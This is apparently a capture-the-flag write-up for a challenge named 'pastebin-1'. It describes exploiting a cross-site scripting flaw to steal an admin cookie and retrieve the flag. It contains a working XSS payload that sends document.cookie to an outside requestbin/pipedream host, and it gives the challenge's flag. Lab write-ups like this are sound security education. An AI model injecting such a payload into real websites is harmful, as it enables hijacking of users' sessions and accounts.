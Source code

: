 # pastebin-1

<p align="center">
    <img src="images/pastebin-1.png" style="border: 0.8px solid black" caption="Challenge" /><br/>
</p>

Notice that the website is vulnerable to XSS

<p align="center">
    <kbd><img src="images/pastebin-2.png" style="border: 0.8px solid black" caption="Challenge" /></kbd><br/>
</p>

<p align="center">
    <img src="images/pastebin-3.png" style="border: 0.8px solid black" caption="Challenge" /><br/>
</p>

Use [requestbin](https://requestbin.com/) to receive web response.

Exploit XSS vulnerability to obtain admin cookie

`<script>new Image().src="https://enfai4qtftdcn.x.pipedream.net?c="+document.cookie;</script>`

<p align="center">
    <kbd><img src="images/pastebin-4.png" style="border: 0.8px solid black" caption="Challenge" /></kbd><br/>
</p>

Use the admin page to access the vulnerable page.

<p align="center">
    <img src="images/pastebin-5.png" style="border: 0.8px solid black" caption="Challenge" /><br/>
</p>

Got the flag on requestbin

<p align="center">
    <kbd><img src="images/pastebin-6.png" style="border: 0.8px solid black" caption="Challenge" /></kbd><br/>
</p>

Flag: `flag{d1dn7_n33d_70_b3_1n_ru57}`